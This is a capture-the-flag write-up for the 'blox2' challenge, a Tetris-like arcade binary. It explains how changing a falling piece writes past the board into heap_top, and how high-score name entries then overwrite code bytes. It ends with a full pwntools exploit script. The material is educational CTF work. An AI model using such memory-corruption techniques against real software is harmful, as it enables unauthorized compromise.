


# blox2 - 15 solves (300 points)
## Description
```
You proven yourself a master of Blox, now give the arcade machine a good old-fashioned 80s-era pwning. (NOTE: The WarGames site itself is not in scope, just the Blox Game. If you do find a security issue on the site, feel free to send it to us at support(at)ret2.io).
```

## Overview
`blox1` has to be solved in order to solve `blox2`.  
I didn't manage to solve the pwn part of the challenge during the CTF, but after I saw some writeups from 2 other teams, I decided to write my own, with a different solution.  
For a bit more context, I recommend you read my other write up on [`blox1`](../blox1/) too.  
Based on the reverse part (`blox1`), we were able to get cheat codes in the game, which we can use to override the original call to `hw_log` and replace the `0xbadb01` value with `0x41414141` without upgrading our `Write Primitive`. Other than that, we can override the checks (Just the jumps) that originally checked for the first flag.  

## Searching for Vulnerabilities
In the given source, we can see what we have to do in order to get the second flag:
```csharp
// magic values for the hardware logging mechanism
// hacking is grounds for voiding this machine's warranty
#define LOG_CHEATING 0xbadb01
#define LOG_HACKING 0x41414141
void hw_log(int reason) {
    syscall(1337, reason);
}
```
We need to call `hw_log` with `0x41414141` as `0xbadb01` was used in the `blox1` challenge.  

Since we're able to change our `tetromino` to whatever we want, we can do this last second, for example if we change from an `I` to an `O`, we're able to write outside the `boards` array into the stuff which is located next to it, coincidentally, the `heap_top` variable is right below it:
```csharp
else if (cheats_enabled) {
    int idx = str_index_of(" IJLOSZT", op);
    if (idx > 0)
        g_cur_mino = idx;
}
```
  
Furthermore, this `heap_top` variable is only used in the custom `malloc` function:
```csharp
void* malloc(unsigned long n) {
    if (!heap_top)
        heap_top = heap;

    if (heap_top+n >= (void*)&heap[sizeof(heap)]) {
        writestr("ENOMEM\n");
        exit(1);
    }
    void* p = heap_top;
    heap_top += n;
    return p;
}
```
In here, we can see that if we call `malloc` with a size `n`, it *allocates* `n` bytes from the heap and adding `n` to `heap_top`, starting from `heap_top`, and returning a pointer to that location. It also checks if the `heap_top` + size `n` is bigger than the actual size of the `heap`, which means that we're unable to set our `heap_top` to any value beyond the `heap`.  
Continuing, this `malloc` function is called inside the `check_high_score` function, which checks whether there is a new high score in the top 5 and if there is, it calls `malloc` where it allows the user to enter a `3` letter name (or nothing), which is then added to the `high_score_names` array as well as the score, which is also added to the `high_scores` array:
```csharp
bool check_high_score() {
    unsigned int idx;
    for (idx = 0; idx < NHIGH_SCORES; idx++)
        if (g_score > high_scores[idx])
            break;
    if (idx == NHIGH_SCORES)
        return 0;

    writestr("  NEW HIGH SCORE!!!\n");
    char* name = malloc(4);
    writestr("Enter your name, press enter to confirm\n");
    writestr("___");

    int nameidx = 0;
    char c;
    while ((c = getchar()) != '\n') {
        if (c == '\b' || c == '\x7f') { // backspace characters
            if (nameidx) {
                name[--nameidx] = 0;
                redraw_name(name);
            }
        }
        else {
            if (c >= 'a' && c <= 'z')
                c -= 0x20;
            if (c >= 'A' && c <= 'Z' && nameidx < 3) {
                name[nameidx++] = c;
                redraw_name(name);
            }
        }
    }

    for (unsigned int i = NHIGH_SCORES-1; i > idx; i--) {
        high_scores[i] = high_scores[i-1];
        high_score_names[i] = high_score_names[i-1];
    }

    high_scores[idx] = g_score;
    high_score_names[idx] = name;
    return 1;
}
```
Also, in here, we can see that our name can only consist of capital letters from the alphabet...

### Controlling `heap_top`
Now we know that we can somehow put a value in `heap_top` and if we get a new highscore, it will allow us to write 3 letters in the location at `heap_top`.  
After a bit of trial and error, we found out that if we quickly change our `tetromino` from for example an `I` to an `O` (In the bottom left corner), it modifies the `heap_top`. After a bit of debugging, we found out what was going on:  
  
In here, you can see that the complete bottom left *pixel/spot* corresponds with the fourth byte of `heap_top`, the *spot* next to it, to the third etc.  
Also, every mino has it's own value:
```csharp
#define TTR_I 1
#define TTR_J 2
#define TTR_L 3
#define TTR_O 4
#define TTR_S 5
#define TTR_Z 6
#define TTR_T 7
```
Which means that if we get the `O` piece at the bottom left, the fourth (and third) byte of `heap_top` will be set to `04`. This means that we're just partially able to control `heap_top`, but thanks to the `malloc` function, everytime it gets called, `heap_top` is incremented by `4`.  

### `cheats_enabled`
Looking at the disassembly of the original code:
```asm
0x4011d2:  mov     eax, 0x0
0x4011d7:  call    place_cur_mino
0x4011dc:  mov     eax, 0x0
0x4011e1:  call    check_full_lines
0x4011e6:  movzx   eax, byte [rel cheats_enabled]
0x4011ed:  test    al, al
0x4011ef:  jne     0x401210
0x4011f1:  mov     eax, 0x0
0x4011f6:  call    check_cheat_codes
0x4011fb:  test    al, al
0x4011fd:  je      0x401210
0x4011ff:  mov     byte [rel cheats_enabled], 0x1
0x401206:  mov     edi, 0xbadb01
0x40120b:  call    hw_log
```
We can see that in the compiled binary, the value `0xbadb01` is constant and we need to get it to `0x41414141` (Just 4 `A`'s). Next to that, we need to override the two checks, which check whether we already completed the cheat or not.  

## PWNING
During the CTF, I thought that if someone didn't enter a username, the bytes allocated by `malloc` were set to `0`, however, the bytes just keep their original value..  
With this all in mind, we can make a plan:
1. Modify `heap_top`, to something we can use to get to `0x401207` to override `0xbadb01` with `0x41414141`
2. Repeat step 1, since we're only able to write 3 of the 4 required `A`'s
3. Override the two `jump`'s with some other opcode

### Step 1
To do this, we need to set our `heap_top` to the highest possible value possible using the `tetromino`, while keeping the difference between our target (`0x401207`) and our value divisible by `4` (The value `malloc` increases `heap_top` by).  
To do this, I took an `I`, modified it to a `T` at the last second, filled the bottom layer so it got removed and reproduced the step. Which set the `heap_top` to `0x0040070b` (`0xb` instead of `0x7`, because we got an highscore and the `40` because of it's original value).  
Since we need to reach our target of `0x401207`, we need to get a new highscore `703` times in a row (`(0x00401207 - 0x0040070b) / 4`). Obviously, this is going to take a while, but we can cheat a little bit using the cheat codes.


### Step 2
Essentially, we need to do the same thing, but instead of changing the `I` into a `T` the second time, I first replace the `I` with a `S` at the bottom left, and then did the `T`.  
This got the `heap_top` to `0x00400705`, to now override the last byte of `0xbadb01`, we need to again, get a highscore `805` times in a row, but now even higher than the highest high score of `Step 1` (`(0x00401209 - 0x00400705) / 4`).  

### Step 3
The last step is essentially also the same as the first 2. We need to get our `heap_top` value to something, so we can reach our jumps and override them. However, now we can cheat a little and combine `Step 3` with `Step 1` and `Step 2`, since those jumps, are first, we can take the loop of `Step 1` for example, stop at such a jump, override and continue, without resetting the `heap_top`. This saves a lot of time.  
Something to override those jumps with, can for example just be a `B`, which is just: `inc edx`.


### Code
Putting this all together, resulted in the following code:
```python
from pwn import *
import math
import struct

currentScore = 1

p = process("./bloxModified")

def startGame():
    p.sendline("")

def die(name, score=0):
    if score == 0:
        p.send("wI " * 5)
        p.send(name)
        p.sendline("")
    else:
        #Try to optimize the code...
        rightLeft = score % 40

        stacksRight = int(math.floor(rightLeft / 2.0))
        stacksLeft = int(math.ceil(rightLeft / 2.0))
        totalStacks = int(math.floor(score / 40.0))

        for i in range((score // 40) * 4):
            p.send("I" + 5 * "a" + " ")
            p.send("I" + 1 * "a" + " ")
            p.send("I" + 3 * "d" + " ")  
        
        for i in range(stacksRight):
            p.send("I" + 3 * "d" + " ")
        
        for i in range(stacksLeft):
            p.send("I" + 5 * "a" + " ")

        p.send("wI " * 5)

        p.send(name)
        p.sendline("")

def enableCheats():
    for i in range(2):
        p.send(" "*12)
        
        p.sendline("AAA")
        p.sendline("")

    p.send("waaaaa ")
    p.send("aaa " * 2)
    p.send("c")
    p.send("ddw ")
    p.send("waaaaa ")
    p.send("aaa ")
    p.send("aaaaa " * 2)
    p.send("waaaaa "*3)
    p.send("waaa "*4)
    p.send("wa ")
    p.send(" " * 2)
    p.send("ddddd " * 2)
    p.send(" ")
    p.send("ddddd ")
    p.send(" "*5)
    p.sendline("AAA")

def preciseMovements(moves, a, s):
    p.send(moves[0])
    p.send("a" * a)
    p.send("s"*s)
    p.send(moves[1])
    p.send(" ")

def setHeapTop1():
    preciseMovements(["wO", "T"], 5, 18)
    p.send("I" + 3*"a" + " ")
    p.send("I" + "d" + " ")
    p.send("Z" + "d"* 5 + " ")
    preciseMovements(["wO", "T"], 4, 18)
    die("")
    pass

def setHeapTop2():
    preciseMovements(["I", "S"], 5, 19)
    p.send("Iw" + 5*"a" + " ")
    p.send("I" + 2*"a" + " ")
    p.send("I" + 2*"d" + " ")
    p.send("Iw" + "d"* 6 + " ")
    preciseMovements(["wO", "T"], 4, 18)
    die("")
    pass

def restart(name=""):
    global currentScore
    startGame()
    die(name, currentScore)
    currentScore += 1

startGame()
#enable cheats / reveal first flag
enableCheats()


startGame()
#set the heap_top to 0x0040070b
setHeapTop1()

#loop until we reach the first jump to override
for i in range((0x004011ef - 0x0040070b)//4):
    restart()

#override the jump with
#inc edx
restart("BB")

#loop until we reach 0xbadb01
for i in range((0x00401207 - 0x004011F3) // 4):
    restart()

#override the first bytes of 0xbadb01 with 0x414141
restart("AAA")


startGame()
#set the heap_top to 0x00400705, 2 off of the first time
setHeapTop2()

#loop until we reach the second jump to override
for i in range((0x004011fd - 0x00400705)//4):
    restart()

#override the jump with
#inc edx
restart("BB")

for i in range((0x00401209 - 0x00401201)//4):
    restart()

#and finally, set the last byte of 0xbadb01 to 0x41
restart("AA")

startGame()
#print the flag :)
p.send(" " * 10)
p.interactive()
```
This code is not really optimized and it takes like a minute for it to get the flag.  
*Note that I patched a version of the binary, since it was rather slow with the complete output and it always timed out in the remote server*  
*bloxModifed* is a modified version, without any output and when `hw_log` gets called, it will output ` IJLOSZT`.  
*bloxModified2* is the same, but in `hw_log` it compares the supplied code to `0x41414141` and only if they match it prints ` IJLOSZT`  